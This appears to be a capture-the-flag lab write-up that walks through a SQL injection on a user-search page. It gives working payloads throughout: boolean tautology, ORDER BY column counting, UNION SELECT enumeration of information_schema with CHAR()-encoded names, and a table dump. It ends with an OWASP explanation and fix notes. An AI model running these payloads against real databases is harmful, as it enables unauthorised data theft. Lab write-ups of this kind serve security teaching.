




# SQL injection basic

Search for users by id is implemented on the page.

Let's try to SQL injection.
We assume that the request has the following structure:
```
SELECT id, title, url FROM table_name
WHERE id = 1
```
If we enter 1+1, then user 2 will be returned to us.
So it is sensible to injection.

Try this input: 1 or 1 = 1
```
SELECT id, title, url FROM table_name
WHERE id = 1 or 1 = 1
```


Wow, it works! We are interested in a user under 5 id.


Let's try to find the number of fields that SQL sends using ORDER BY.
If you enter ```5 ORDER BY 3``` - we get an error, which means SQL sends 2 fields.

Enter ```4242 UNION SELECT 4242, database()```
And we get the name of the database - Member_images.

Let's try to get the table name
```
4242 UNION SELECT 1, TABLE_NAME
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115)
```

The name of table is list_images.

CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) - translating Member_images into a sequence of characters, because lines in our case are not accepted.

Now we get the columns that are in the table
```
4242 UNION SELECT 1, COLUMN_NAME
FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA = CHAR(077,101,109,098,101,114,095,105,109,097,103,101,115) # Member_images
AND TABLE_NAME = CHAR(108,105,115,116,095,105,109,097,103,101,115) 
```

We get the following database fields: id, url, title, comment.

```
4242 UNION SELECT id, comment
FROM list_images
```


```
borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we just follow this instructions.

## Explanation
Attack type: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application.
> A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete),
> execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present
> on the DBMS file system and in some cases issue commands to the operating system.
> SQL injection attacks are a type of injection attack,
> in which SQL commands are injected into data-plane input in order to affect theexecution of predefined SQL commands.

## How to fix it
> Escaping all user supplied input.
> Use of stored procedures.
